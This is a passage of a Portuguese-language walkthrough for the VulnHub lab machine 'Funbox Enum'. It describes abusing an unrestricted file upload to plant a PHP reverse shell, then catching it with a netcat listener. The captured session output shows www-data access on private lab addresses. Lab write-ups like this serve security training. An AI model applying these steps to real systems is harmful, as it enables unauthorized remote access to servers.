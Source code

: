 ## 3. Exploitation

### 3.1 Unrestricted File Upload

Explorando esse arquivo, foi possível subir um arquivo com um shell reverso em php para ganhar o primeiro acesso ao host.

![image.png](../assets/img/vulnhub/funboxenum/image102.png)

Sendo assim, após acessar o arquivo pela url, foi possível ganhar o primeiro acesso ao host.

OBS:

1. É necessário selecionar a opção CHMOD e editar o arquivo para execução. Dessa forma, ao tentar acessar, o arquivo malicioso será executado.
2. A modificação das permissões parecem ser randômicas e não é possível controlar manualmente. Sendo assim, tentar algumas vezes até que o arquivo seja executável.

![image.png](../assets/img/vulnhub/funboxenum/image103.png)

Primeiro acesso obtido:

```lua
┌──(root㉿kali)-[/home/kali]
└─# nc -vnlp 8888             
listening on [any] 8888 ...
ls
connect to [192.168.0.5] from (UNKNOWN) [192.168.0.3] 45342
Linux funbox7 4.15.0-117-generic #118-Ubuntu SMP Fri Sep 4 20:02:41 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 00:52:27 up 46 min,  0 users,  load average: 0.00, 1.99, 15.84
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 

```
